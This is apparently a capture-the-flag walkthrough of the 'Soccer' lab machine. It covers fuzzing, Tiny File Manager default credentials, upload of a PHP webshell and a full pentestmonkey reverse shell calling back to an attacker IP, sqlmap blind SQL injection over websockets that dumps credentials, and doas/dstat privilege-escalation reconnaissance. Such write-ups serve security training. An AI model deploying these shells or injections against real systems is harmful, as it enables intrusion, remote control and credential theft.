SF:a\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Ca
SF:nnot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"HTT
SF:P/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-sr
SF:c\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x20t
SF:ext/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Tue,\x
SF:2001\x20Sep\x202026\x2016:48:45\x20GMT\r\nConnection:\x20close\r\n\r\n<
SF:!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"ut
SF:f-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS\x
SF:20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r
SF:(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnecti
SF:on:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.75 seconds
           Raw packets sent: 65781 (2.894MB) | Rcvd: 66346 (2.822MB)
```

## User Flag

After knowing that the box has a vhost or a domain attached to it, I quickly ran subdomain enumeration using `FFUF`.

```
ffuf -u http://soccer.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H 'Host: FUZZ.soccer.htb' -ic -c -fs 178

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://soccer.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.soccer.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

:: Progress: [20000/20000] :: Job [1/1] :: 2197 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

Unfortunately, I didn't get a hit. Moving forward, I ran a directory fuzzing scan using `FFUF` in the background while I take a look at the web application by myself.

```
ffuf -u http://soccer.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://soccer.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 14ms]
tiny                    [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 23ms]
                        [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 14ms]
:: Progress: [220547/220547] :: Job [1/1] :: 2083 req/sec :: Duration: [0:01:56] :: Errors: 0 ::
```

I got only 1 hit in the directory fuzzing scan, `tiny` directory on the web application. I just kept a note to self in my mind of this, so that after I am done with manually scrolling through the website, I can go take a look at it.


There was only 1 hyperlink on the home page of the web application & it was a link to the home page itself. So, I didn't find anything interesting there. Then, I took a look at the source code of the home page & still didn't find anything interesting there either. Now, it was time to visit the directory my `FFUF` found, i.e., `tiny`.



Fortunately, this time I did not get a dead end, I got a login page for `Tiny File Manager`. I quickly went to view the source code to see if it reveals the version number.



Fortunately, for me, the source code did indeed reveal the version number of the `Tiny File Manager` being used along with the link to its github page. So, I visited the github page for the `Tiny File Manager` to see if I can find anything interesting there.



I found the default credentials for the `Tiny File Manager` web application on their github.io page. I added it to a new file that I created named `creds.txt`.

```
echo 'admin:admin@123' > creds.txt
```



And, I was able to authenticate as the default `admin` user on the web application & I also noticed that the web application looked a bit similar to the `Wordpress CMS`. I just took a note to self in my mind, just cause it was interesting. Next, I searched to see if there is any kind of public exploits available for the specific version number of the `Tiny File Manager`.


I found a public exploit for the version `2.4.6`, so I figured since the exploit is working for an even newer version (comparatively), the likelihood of it working on a not so older version is quite high. So, I went ahead & took a look at it to see how does it work.

## Understanding the Exploit

The public exploit can be found here: https://www.exploit-db.com/raw/50828.

My understanding of the exploit or the things that I found interesting in the exploit which I think made it work are as follows:

- The exploit asks the user to input the URL of the web application's login page, which I found at `http://soccer.htb/tiny` as an input parameter on runtime.

- The exploit also asks the user to input the credentials for authentication purposes.

- Then, it finds the web root of the web application & there is also a comment in the exploit stating that the webroot for the `Tiny File Manager` is usually `/var/www/tiny` by default. So, I kinda skipped this part of the exploit & just assumed that the web root directory would just be the default.

- Then, it creates a `PHP Webshell` & tries to upload it to the web root.

- Finally, it just spawns the webshell on the terminal by utilizing an infinite while loop.

So, my understanding of the exploit is to just upload the webshell & simply try to access it. If I cannot access it for any kind of reason, I'll cross that bridge when I get there.

I wrote a simple php one liner webshell on my local machine.

```
cat shell.php
<?php system($_GET['cmd']); ?>
```

Then, I tried to upload it to the web application.



After uploading the webshell to `/var/www/html/tiny/uploads` directory on the web application, which apparently was the only writeable directory to which I could've uploaded any kind of file, I'm assuming as I just uploaded a php file for my purpose. Then, I tried to see if I can access the webshell on the web application.


As the URL `http://soccer.htb/tiny/uploads/shell.php` is returning absolutely nothing, it's safe to assume that I can access the webshell & I'm using the correct URL for it as well.


However, it seems like the web application is deleting the webshell that I uploaded after a specific period. It might be possible that the web application has some kind of firewall rules that if the name of the file is `shell.php`, then it is gonna remove that file from the machine. The reason for me thinking that is that the public exploit that I found named the shell in such a way that there is a random number generated after the `shell` part & before the extension part, i.e., `.php` part. Therefore, I changed the name of the file `shell.php` file to `idontknow.php` to see if the name of the webshell actually matters or not.


I waited for like 2 minutes before I try to access the webshell on the web application to verify whether or not my hyposthesis is true. Suprisingly enough, even the newer webshell that I created was deleted from the machine even when it's name was not `shell.php` anymore. Which means that the web application is probably reviewing the content of the file uploaded to it & then deleting the file if it finds the content malicious in any way.

I, then, tried to upload a php reverse shell on the web application to get a persistent connection to the box.

```
cat reverse.php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.15.203';
$port = 9001;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?>
```

And then, I tried to access it on http://soccer.htb/tiny/uploads/reverse.php to see if I can get a callback. Fortunately for me, I did indeed get connection.

```
nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.129.76.245 48386
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 18:27:52 up  1:44,  0 users,  load average: 0.07, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ 
```

Then, I upgraded the shell to a stable Full TTY shell, referencing https://hacktricks.wiki/en/generic-hacking/reverse-shells/full-ttys.html.

```
www-data@soccer:/$ ls
bin   dev   lib    libx32      mnt   root  snap  tmp      var
boot  etc   lib32  lost+found  opt   run   srv   usr
data  home  lib64  media       proc  sbin  sys   vagrant
www-data@soccer:/$ cd home/
www-data@soccer:/home$ ls
player
www-data@soccer:/home$ cd player
www-data@soccer:/home/player$ ls
user.txt
www-data@soccer:/home/player$ wc -c user.txt
wc: user.txt: Permission denied
www-data@soccer:/home/player$ ls -lah
total 28K
drwxr-xr-x 3 player player 4.0K Nov 28  2022 .
drwxr-xr-x 3 root   root   4.0K Nov 17  2022 ..
lrwxrwxrwx 1 root   root      9 Nov 17  2022 .bash_history -> /dev/null
-rw-r--r-- 1 player player  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 player player 3.7K Feb 25  2020 .bashrc
drwx------ 2 player player 4.0K Nov 17  2022 .cache
-rw-r--r-- 1 player player  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root   root      9 Nov 17  2022 .viminfo -> /dev/null
-rw-r----- 1 root   player   33 Sep  1 16:44 user.txt
www-data@soccer:/home/player$
```

Unfortunately, I wasn't able to get the content of the `user.txt` flag on the system cause I impersonated as the user `www-data` & that user doesn't have the required privileges to read, write or execute the files inside `/home/player/`. Which means that I would have to impersonate at least as the user `player` or another user with more privileges, such as the root user.

For the next step in my post expoitation process, I tried to see if the `nginx` configuration file reveals anything interesting.

```
user www-data;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
        worker_connections 768;
        # multi_accept on;
}

http {

        ##
        # Basic Settings
        ##

        sendfile on;
        tcp_nopush on;
        tcp_nodelay on;
        keepalive_timeout 65;
        types_hash_max_size 2048;
        # server_tokens off;

        # server_names_hash_bucket_size 64;
        # server_name_in_redirect off;

        include /etc/nginx/mime.types;
        default_type application/octet-stream;

        ##
        # SSL Settings
        ##

        ssl_protocols TLSv1 TLSv1.1 TLSv1.2 TLSv1.3; # Dropping SSLv3, ref: POODLE
        ssl_prefer_server_ciphers on;

        ##
        # Logging Settings
        ##

        access_log /var/log/nginx/access.log;
        error_log /var/log/nginx/error.log;

        ##
        # Gzip Settings
        ##

        gzip on;

        # gzip_vary on;
        # gzip_proxied any;
        # gzip_comp_level 6;
        # gzip_buffers 16 8k;
        # gzip_http_version 1.1;
        # gzip_types text/plain text/css application/json application/javascript text/xml application/xml application/xml+rss text/javascript;

        ##
        # Virtual Host Configs
        ##

        include /etc/nginx/conf.d/*.conf;
        include /etc/nginx/sites-enabled/*;
}


#mail {
#       # See sample authentication script at:
#       # http://wiki.nginx.org/ImapAuthenticateWithApachePhpScript
#
#       # auth_http localhost/auth.php;
#       # pop3_capabilities "TOP" "USER";
#       # imap_capabilities "IMAP4rev1" "UIDPLUS";
#
#       server {
#               listen     localhost:110;
#               protocol   pop3;
#               proxy      on;
#       }
#
#       server {
#               listen     localhost:143;
#               protocol   imap;
#               proxy      on;
#       }
#}
```

Under Virtual Host Configs, there was another directory inside the `/etc/ngnix/` directory, namely `/etc/nginx/sites-enabled/`.

```
www-data@soccer:/dev/shm$ ls /etc/nginx/sites-enabled/
default  soc-player.soccer.htb
```

```
www-data@soccer:/dev/shm$ cat /etc/nginx/sites-enabled/soc-player.htb
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
```

Turns out, `nginx` is configured in such a way that there is a hidden (or not open to public) virtual host available on the host machine, namely `soc-player.soccer.htb`, which is listening on port `3000`. I added it to my `/etc/hosts` file & headed on to the virtual host to see what it is being used for.

On visiting the virtual host, we see almost the similar web application as we saw on the host, with the only difference being there are functionalities such as `sign up` & `login` on the home page.


This means that there are pretty good chances that the developers found a vulnerability on the virtual host & removed the authentication functionality on the main web application. I quickly registered a test user with the following creds:

```
email: test@test.com
username: test
password: test
```

And after logging in, I got redirected to another endpoint, `/check`, which had a `Ticket Check` functionality.


After playing around with the input parameter `id` on the `/check` endpoint, I got to know that the TCP port `9091` is a `websocket` which the host uses to validate the tickets.



The ticket doesn't show that it is valid after the first time I checked it, which is odd but it makes sense, since there is a good probability that the virtual host `soc-player.soccer.htb` is still under development. Moving on, there was a `mysql` service running on the box which I found earlier. Therefore, I tried to look for an `SQLInjection` vulnerability. However, there is one issue which would not allow me to perform basic payloads manually, which is that I cannot identify when is the query gonna error out cause the ticket isn't valid anymore. Therefore, I proceeded with using the tool `SQLMap` to automate the `SQLInjection`. However, I did not know how to automate `SQLInjection` on websockets. So, I went ahead & did a google search for using `SQLMap` to find out `SQLInjection` vulnerabilities when an application uses websockets.




The source simply uses `ws://` instead of `http://` for developing a python script to automate `Blind SQL Injection`. I tried to see if `SQLMap` can do it, which it should be able to do so.

I used the URL & data from `Burpsuite` to pass in as an input parameter in `SQLMap`.



```
sqlmap -u ws://soc-player.soccer.htb:9091/ --data '{"id":"*"}' --batch --level 5 --risk 3
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.10.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:45:52 /2026-09-11/

[...snip...]
[13:46:55] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable
[13:47:00] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
[...snip...]
[13:53:40] [INFO] checking if the injection point on (custom) POST parameter 'JSON #1*' is a false positive
(custom) POST parameter 'JSON #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 596 HTTP(s) requests:
---
Parameter: JSON #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"id":"-1901 OR 3951=3951"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: {"id":"(CASE WHEN (4930=4930) THEN SLEEP(5) ELSE 4930 END)"}
---
[13:54:00] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[13:54:05] [INFO] fetched data logged to text files under '/home/akku/.local/share/sqlmap/output/soc-player.soccer.htb'

[*] ending @ 13:54:05 /2026-09-11/
```

`SQLMap` results confirm that the POST parameter is vulnerable to `Boolean Injection`. Moving further, I dumped the database information using `SQLmap`.

```
sqlmap -u ws://soc-player.soccer.htb:9091/ --data '{"id":"*"}' --batch --level 5 --risk  3 --dbs
[...snip...]
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
[...snip...]

sqlmap -u ws://soc-player.soccer.htb:9091/ --data '{"id":"*"}' --batch --level 5 --risk  3 --thread 10 -D soccer_db --dump
[...snip...]
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
[...snip...]
```

And we got the creds of the user `player`, which we also found on the host as well. I added the credentials that I found in the `creds.txt` file.

`echo player:PlayerOftheMatch2022 >> creds.txt`

Then, I tried to see if I can get access to the `ssh` service as the user `player`.

```
ssh player@soccer.htb
The authenticity of host 'soccer.htb (10.129.61.232)' can't be established.
ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'soccer.htb' (ED25519) to the list of known hosts.
player@soccer.htb's password:
Permission denied, please try again.
player@soccer.htb's password:
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Sep 11 18:23:20 UTC 2026

  System load:           0.08
  Usage of /:            70.1% of 3.84GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             233
  Users logged in:       0
  IPv4 address for eth0: 10.129.61.232
  IPv6 address for eth0: dead:beef::a0de:adff:fe7e:2d8f


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Dec 13 07:29:10 2022 from 10.10.14.19
player@soccer:~$
```

And I got the access, & I also got the user flag as well.

```
player@soccer:~$ ls
user.txt
player@soccer:~$ wc -c user.txt
33 user.txt
player@soccer:~$ 
```

## Privilege Escalation

The very first thing I do after landing on the host for the privilege escalation is check if the user has sudo privileges.

```
sudo -l
[sudo] password for player:
Sorry, user player may not run sudo on localhost.
```

Unfortunately though, the user `player` did not have any kind of sudo privileges whatsoever. Moving further, I tried to see the processes being ran under the context of the user `player`, as that is the most that I can see for processes on the host.

```
player@soccer:~$ ps -ef --forest
UID          PID    PPID  C STIME TTY          TIME CMD
player      1463    1462  0 17:08 pts/0    00:00:00 -bash
player      1720    1463  0 17:24 pts/0    00:00:00  \_ ps -ef --forest
player      1352       1  0 17:08 ?        00:00:00 /lib/systemd/systemd --user
player@soccer:~$ 
```

And again, nothing interesting is being ran by the user `player` on the host.

Next, I tried to find any files having an `SUID` binary bit on the host.

```
player@soccer:~$ find / -perm /4000 2>/dev/null -ls | grep -v '^snap'
    70968     44 -rwsr-xr-x   1 root     root        42224 Nov 17  2022 /usr/local/bin/doas
    18263    140 -rwsr-xr-x   1 root     root       142792 Nov 28  2022 /usr/lib/snapd/snap-confine
     7696     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    14300    464 -rwsr-xr-x   1 root     root         473576 Mar 30  2022 /usr/lib/openssh/ssh-keysign
    16207     24 -rwsr-xr-x   1 root     root          22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
     7700     16 -rwsr-xr-x   1 root     root          14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
     1753     40 -rwsr-xr-x   1 root     root          39144 Feb  7  2022 /usr/bin/umount
     2093     40 -rwsr-xr-x   1 root     root          39144 Mar  7  2020 /usr/bin/fusermount
     1752     56 -rwsr-xr-x   1 root     root          55528 Feb  7  2022 /usr/bin/mount
     1647     68 -rwsr-xr-x   1 root     root          67816 Feb  7  2022 /usr/bin/su
    13720     44 -rwsr-xr-x   1 root     root          44784 Nov 29  2022 /usr/bin/newgrp
     3023     84 -rwsr-xr-x   1 root     root          85064 Nov 29  2022 /usr/bin/chfn
     1724    164 -rwsr-xr-x   1 root     root         166056 Jan 19  2021 /usr/bin/sudo
     3027     68 -rwsr-xr-x   1 root     root          68208 Nov 29  2022 /usr/bin/passwd
     3026     88 -rwsr-xr-x   1 root     root          88464 Nov 29  2022 /usr/bin/gpasswd
     3024     52 -rwsr-xr-x   1 root     root          53040 Nov 29  2022 /usr/bin/chsh
     2242     56 -rwsr-sr-x   1 daemon   daemon        55560 Nov 12  2018 /usr/bin/at
      135    121 -rwsr-xr-x   1 root     root         123560 Nov 25  2022 /snap/snapd/17883/usr/lib/snapd/snap-confine
      814     84 -rwsr-xr-x   1 root     root          85064 Mar 14  2022 /snap/core20/1695/usr/bin/chfn
      820     52 -rwsr-xr-x   1 root     root          53040 Mar 14  2022 /snap/core20/1695/usr/bin/chsh
      889     87 -rwsr-xr-x   1 root     root          88464 Mar 14  2022 /snap/core20/1695/usr/bin/gpasswd
      973     55 -rwsr-xr-x   1 root     root          55528 Feb  7  2022 /snap/core20/1695/usr/bin/mount
      982     44 -rwsr-xr-x   1 root     root          44784 Mar 14  2022 /snap/core20/1695/usr/bin/newgrp
      997     67 -rwsr-xr-x   1 root     root          68208 Mar 14  2022 /snap/core20/1695/usr/bin/passwd
     1107     67 -rwsr-xr-x   1 root     root          67816 Feb  7  2022 /snap/core20/1695/usr/bin/su
     1108    163 -rwsr-xr-x   1 root     root         166056 Jan 19  2021 /snap/core20/1695/usr/bin/sudo
     1166     39 -rwsr-xr-x   1 root     root          39144 Feb  7  2022 /snap/core20/1695/usr/bin/umount
     1255     51 -rwsr-xr--   1 root     systemd-resolve    51344 Oct 25  2022 /snap/core20/1695/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1627    463 -rwsr-xr-x   1 root     root              473576 Mar 30  2022 /snap/core20/1695/usr/lib/openssh/ssh-keysign
player@soccer:~$ 
```

The one file that stood out to me was `/usr/local/bin/doas`, as it was the first time I ever saw it containing an `SUID` binary bit. I searched on google for what does this file do, but judging from the name of the file itself, it seems like it can run a command or a file under the context of another user as well & since it has an `SUID` bit set, it's highly likely that I can use it in my advantage to impersonate as the `root` user.


Turns out the `/usr/local/bin/doas` file is just as simple as it's name, i.e., I can use it to run commands as another user, including the `root` user as well. Now that I know that there is a binary file which I can exploit to impersonate as the `root` user, I went on [GTFOBins](https://gtfobins.org/) to see how to launch a shell as the `root` user by using the `doas` binary.



```
player@soccer:~$ /usr/local/bin/doas -u root /bin/sh
doas: Operation not permitted
player@soccer:~$ 
```

Turns out it's not that easy to get the shell as `root` user by utilising the `doas` binary. Then I proceeded to see if there is a config file for the binary file `doas`.

```
player@soccer:~$ which doas
/usr/local/bin/doas
player@soccer:~$ ls /usr/local/bin | grep *.conf
player@soccer:~$ ls /usr/local/etc/ | grep *.conf
player@soccer:~$ ls /usr/local/etc/
doas.conf
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
player@soccer:~$ 
```

The config file for `doas` confirms that we can run the command `/usr/bin/dstat` as the `root` user. I went to `GTFOBins` to see how to use dstat for privesc.



`GTFOBins` stated that `dstat` allows us to run arbitrary Python scripts loaded as **external plugins** if they are located in one of the following directories:

1. `~/.dstat/`
2. `(path of the binary)/plugins`
3. `/usr/share/dstat/`
4. `/usr/local/share/dstat/`

The plugin named `xxx` file name must be defined in the `dstat_xxx.py` file & then we can proceed to run the command `dstat -xxx`.

I checked to see if the user `player`, whom I'm currently impersonating as, has `write` privileges over the aforementioned directories, if they even exist.

```
player@soccer:~$ ls -lah ~
total 28K
drwxr-xr-x 3 player player 4.0K Nov 28  2022 .
drwxr-xr-x 3 root   root   4.0K Nov 17  2022 ..
lrwxrwxrwx 1 root   root      9 Nov 17  2022 .bash_history -> /dev/null
-rw-r--r-- 1 player player  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 player player 3.7K Feb 25  2020 .bashrc
drwx------ 2 player player 4.0K Nov 17  2022 .cache
-rw-r--r-- 1 player player  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root   root      9 Nov 17  2022 .viminfo -> /dev/null
-rw-r----- 1 root   player   33 Sep 15 22:52 user.txt
player@soccer:~$ ls /usr/bin/dstat -lah
-rwxr-xr-x 1 root root 96K Aug  4  2019 /usr/bin/dstat
player@soccer:~$ ls -lah /usr/local/share/dstat
total 8.0K
drwxrwx--- 2 root player 4.0K Dec 12  2022 .
drwxr-xr-x 6 root root   4.0K Nov 17  2022 ..
```

I found out that the `/usr/local/share/dstat/` directory can be written by the users `root` & the users in the group `player`, i.e., us.

```
player@soccer:~$ ls -lah /usr/share/dstat/
total 524K
drwxr-xr-x   3 root root 4.0K Nov 17  2022 .
drwxr-xr-x 125 root root 4.0K Nov 28  2022 ..
drwxr-xr-x   2 root root 4.0K Nov 17  2022 __pycache__
-rwxr-xr-x   1 root root  96K Aug  4  2019 dstat.py
-rw-r--r--   1 root root 2.6K Jul 29  2019 dstat_battery.py
-rw-r--r--   1 root root 1.4K Jul 29  2019 dstat_battery_remain.py
-rw-r--r--   1 root root 4.3K Jul 29  2019 dstat_condor_queue.py
-rw-r--r--   1 root root 1.7K Jul 29  2019 dstat_cpufreq.py
-rw-r--r--   1 root root 1.4K Jul 29  2019 dstat_dbus.py
-rw-r--r--   1 root root 2.1K Jul 29  2019 dstat_disk_avgqu.py
-rw-r--r--   1 root root 2.5K Jul 29  2019 dstat_disk_avgrq.py
-rw-r--r--   1 root root 2.5K Jul 29  2019 dstat_disk_svctm.py
-rw-r--r--   1 root root 2.7K Jul 29  2019 dstat_disk_tps.py
-rw-r--r--   1 root root 3.1K Jul 29  2019 dstat_disk_util.py
-rw-r--r--   1 root root 2.8K Jul 29  2019 dstat_disk_wait.py
-rw-r--r--   1 root root 1.1K Jul 29  2019 dstat_dstat.py
-rw-r--r--   1 root root 1.2K Jul 29  2019 dstat_dstat_cpu.py
-rw-r--r--   1 root root 1.1K Jul 29  2019 dstat_dstat_ctxt.py
-rw-r--r--   1 root root 1.1K Jul 29  2019 dstat_dstat_mem.py
-rw-r--r--   1 root root  829 Jul 29  2019 dstat_fan.py
-rw-r--r--   1 root root 1.7K Jul 29  2019 dstat_freespace.py
-rw-r--r--   1 root root 1.4K Jul 29  2019 dstat_fuse.py
-rw-r--r--   1 root root 1.6K Jul 29  2019 dstat_gpfs.py
-rw-r--r--   1 root root 1.8K Jul 29  2019 dstat_gpfs_ops.py
-rw-r--r--   1 root root  436 Jul 29  2019 dstat_helloworld.py
-rw-r--r--   1 root root 3.1K Jul 29  2019 dstat_ib.py
-rw-r--r--   1 root root 1.6K Jul 29  2019 dstat_innodb_buffer.py
-rw-r--r--   1 root root 1.6K Jul 29  2019 dstat_innodb_io.py
-rw-r--r--   1 root root 1.7K Jul 29  2019 dstat_innodb_ops.py
-rw-r--r--   1 root root 4.5K Jul 29  2019 dstat_jvm_full.py
-rw-r--r--   1 root root 2.8K Jul 29  2019 dstat_jvm_vm.py
-rw-r--r--   1 root root 1.2K Jul 29  2019 dstat_lustre.py
-rw-r--r--   1 root root 1.3K Jul 29  2019 dstat_md_status.py
-rw-r--r--   1 root root  778 Jul 29  2019 dstat_memcache_hits.py
-rw-r--r--   1 root root 1.2K Jul 29  2019 dstat_mongodb_conn.py
-rw-r--r--   1 root root 1.8K Jul 29  2019 dstat_mongodb_mem.py
-rw-r--r--   1 root root 1.3K Jul 29  2019 dstat_mongodb_opcount.py
-rw-r--r--   1 root root 1.2K Jul 29  2019 dstat_mongodb_queue.py
-rw-r--r--   1 root root 1.9K Jul 29  2019 dstat_mongodb_stats.py
-rw-r--r--   1 root root 2.0K Jul 29  2019 dstat_mysql5_cmds.py
-rw-r--r--   1 root root 2.0K Jul 29  2019 dstat_mysql5_conn.py
-rw-r--r--   1 root root 4.1K Jul 29  2019 dstat_mysql5_innodb.py
-rw-r--r--   1 root root 4.1K Jul 29  2019 dstat_mysql5_innodb_basic.py
-rw-r--r--   1 root root 4.1K Jul 29  2019 dstat_mysql5_innodb_extra.py
